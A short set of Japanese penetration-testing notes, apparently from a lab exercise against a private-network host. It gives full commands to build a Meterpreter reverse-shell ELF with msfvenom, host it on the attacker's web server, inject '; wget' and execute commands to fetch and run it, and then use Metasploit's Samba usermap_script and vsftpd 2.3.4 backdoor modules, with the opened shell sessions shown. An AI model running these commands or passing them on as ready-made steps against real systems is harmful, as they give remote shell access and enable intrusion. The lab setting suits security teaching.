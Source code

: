 ### ペイロード作成

```shell
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.11.9 LPORT=4444 -f elf > shell.elf
```

### HTTP サーバーに配置

```shell
sudo cp ./shell.elf /var/www/html/
```

### コマンドインジェクションでペイロードをダウンロードさせる

```shell
; wget http://192.168.11.9/shell.elf
```

### コマンドインジェクションでセッションを開始

```shell
; chmod +x shell.elf; ./shell.elf
```

### シェルを操作

```shell
sessions -i <session number>
```

## Samba の脆弱性を利用する例

```shell
use exploit/multi/samba/usermap_script
show payloads
set payload cmd/unix/reverse
exploit

[*] Command shell session 1 opened (192.168.11.9:4444 -> 192.168.11.10:52929) at 2024-11-18 21:02:16 -0500
>
```

## FTP の脆弱性を利用する例

```shell
use exploit/unix/ftp/vsftpd_234_backdoor
show payloads
set payload cmd/unix/interact
set RHOSTS 192.168.11.10
exploit

[*] Command shell session 2 opened (192.168.11.9:45565 -> 192.168.11.10:6200) at 2024-11-18 21:08:13 -0500
>
```
